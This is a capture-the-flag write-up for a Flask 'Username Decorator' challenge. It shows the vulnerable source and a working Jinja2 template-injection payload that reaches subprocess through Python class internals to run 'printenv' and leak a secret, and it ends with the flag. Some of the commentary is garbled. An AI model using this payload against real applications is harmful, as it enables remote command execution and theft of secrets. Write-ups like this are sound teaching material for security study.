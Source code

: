 # Username Decorator

## Brief

My favorite social media platform, Prorope, has overhauled their username system and now supports prefixes and suffixes! Isn't that so cool?
For one, I know that I would really love to be the !! JW !!, so I made a website to preview these username changes.
Note: the flag is in an environment variable called **FLAG**

```python
from flask import Flask, render_template_string, request
import re

app = Flask(__name__)
app.config['FLAG_LOCATION'] = 'os.getenv("FLAG")'

def validate_username(username):
   return bool(re.fullmatch("[a-zA-Z0-9._\[\]\(\)\-=,]{2,}", username))

@app.route('/', methods=['GET', 'POST'])
def index():
   prefix = ''
   username = ''
   suffix = ''

   if request.method == 'POST':
      prefix = (request.form['prefix'] or '')[:2]
      username = request.form['username'] or ''
      suffix = (request.form['suffix'] or '')[:2]
      if not validate_username(username): username = 'Invalid Username'
      template = '<!DOCTYPE html><html><body>\
      <form action="" method="post">\
      Prefix: <input name="prefix"> <br>\
      Username: <input name="username"> <br>\
      Suffix: <input name="suffix"> <br> \
      <input type="submit" value="Preview!">\
      </form><h2>%s %s %s</h2></body></html>' % (prefix, username, suffix)
   return render_template_string(template)

@app.route('/flag')
def get_flag():
   return 'Nein'

import os
return eval(app.config['FLAG_LOCATION'])
```

# Analysis

Same with [Bonus: The Revenge of Checkpass 1](../../binary-exploit/Checkpass-1) but here we able to see the class name

But there was filter but not sanitize validate_username() not allowed us to put **'** **"** which mean we cannot pass **'printenv'** or **"printenv"** but because there was not sanitize input we can manipulate it with **str(chr(ord(39)) str(chr(ord(108)) str(chr(ord(115)) str(chr(ord(39))** will convert to **'ls'** but still we cant concatenate the string using **+** symbol so there fore we need to assign the **'ls'** into list then join it

# Solution

we cant simply pass str or chr because jinja will read as variable so we need to call it from the bases class

```python
().__class__.__base__.__subclasses__()[69]
self.__init__.__globals__.__builtins__.chr

```

69 is the position of the str class
and also with the chr

so here is the payload
we call printenv to see the env variable

```python
().__class__.__base__.__subclasses__()[339](().__class__.__base__.__subclasses__()[69]().join([self.__init__.__globals__.__builtins__.chr(112),self.__init__.__globals__.__builtins__.chr(114),self.__init__.__globals__.__builtins__.chr(105),self.__init__.__globals__.__builtins__.chr(110),self.__init__.__globals__.__builtins__.chr(116),self.__init__.__globals__.__builtins__.chr(101),self.__init__.__globals__.__builtins__.chr(110),self.__init__.__globals__.__builtins__.chr(118)]),shell=True,stdout=-1).communicate()
```

**ctf{j4st_us3_pr0p3r_t3mp14t1ng_4lr34dy}**
